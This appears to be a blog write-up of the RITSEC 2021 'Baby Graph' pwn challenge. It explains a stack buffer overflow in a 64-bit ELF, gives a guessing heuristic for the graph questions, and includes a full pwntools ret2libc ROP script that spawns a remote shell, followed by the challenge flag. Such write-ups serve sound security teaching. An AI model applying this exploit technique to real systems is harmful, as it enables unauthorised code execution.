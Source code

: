 ```yaml
---
layout: post
title: "RITSEC 2021 - Baby Graph [Pwn]"
categories: ctf
tags: ikerl ret2lib buffer-overflow
date: 2021-04-12 21:08:00 +0200
author: ikerl
---
```


In this challenge we are given an ELF64 binary. The challenge consists of getting remote code execution and reading the flag. We need to determine whether a given graph is Eulerian to get a prize (leaked libc pointer), and therefore exploit a buffer overflow vulnerability.

With `checksec` we see that the binary is compiled without the PIE and stack canary mitigations. We cannot run a shellcode in the stack, but we can use several ROP gadgets. We are given the full source code, which you can check [here](https://gist.github.com/ikerl/e0ce3980fa55259f2056d9f882f7d912).

```
$ checksec ./babygraph
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

In the source code, there is a suspicious function called `vuln`. This function does not properly check bounds when receiving user input, so we can abuse this vulnerability and take control of the program execution flow.

```c
void vuln() {
    char buf[100];

    printf("Here is your prize: %p\n", system);
    fgets(buf, 400, stdin);
}
```

In order for this function to be executed, we must answer correctly 5 questions; these questions imply determining wheter a given graph is Eulerian or not. In order to save time, instead of properly determining the correct answer, we used the following heuristic based on the number of lines given for the graph:

```python
def checkYesOrNo(lines):
    if len(str(lines).split("\n")) > 1:
        result = "N"
    else:
        result = "Y"
    return result
```

This solution is not perfect, but it succeeds around 50% of the time. Once we get to the vulnerable function and we are rewarded with the libc leak, we can craft a ROP chain to execute a ret2lib attack and get a shell. We need to note two things:
	- We can easily calculate the `execl`, `/bin/sh` and `exit` addresses in memory using a leaked libc address.
	- We cannot use the `system` function because the given libc's function does not work.

```python
#!/bin/python
from pwn import *

def checkYesOrNo(lines):
    if len(str(lines).split("\n")) > 1:
        result = "N"
    else:
        result = "Y"
    return result

io = remote("challenges1.ritsec.club",1339)

elf = ELF('./babygraph')
libc = ELF("./libc.so.6")

for _ in range(5):
	lines = io.recvuntil("(Y/N)\n")
	io.sendline(checkYesOrNo(lines.decode()))

io.recvuntil("prize: ")
recieved = io.readline().strip()

offset_execl = libc.symbols["execl"] - libc.symbols["system"]
offset_binsh = next(libc.search(b'/bin/sh')) - libc.symbols["system"]
offset_exit = libc.symbols["exit"] - libc.symbols["system"]

# GADGETS:
# 0x00000000004017c1: pop rsi; pop r15; ret;
# 0x00000000004017c3: pop rdi; ret;

io.sendline(120*b"A" + p64(0x4017c3) + p64(int(recieved.decode().replace("0x",""),16) + offset_binsh) + p64(0x4017c1) + b"\x00"*8 + b"\x00"*8 + p64(int(recieved.decode().replace("0x",""),16) + offset_execl) + p64(int(recieved.decode().replace("0x",""), 16) + offset_exit))

io.interactive()
```

The exploit scripts gives us a remote shell, which we can use to get the flag:
`RS{B4by_gr4ph_du_DU_dU_Du_B4by_graph_DU_DU_DU_DU_Baby_gr4ph}`
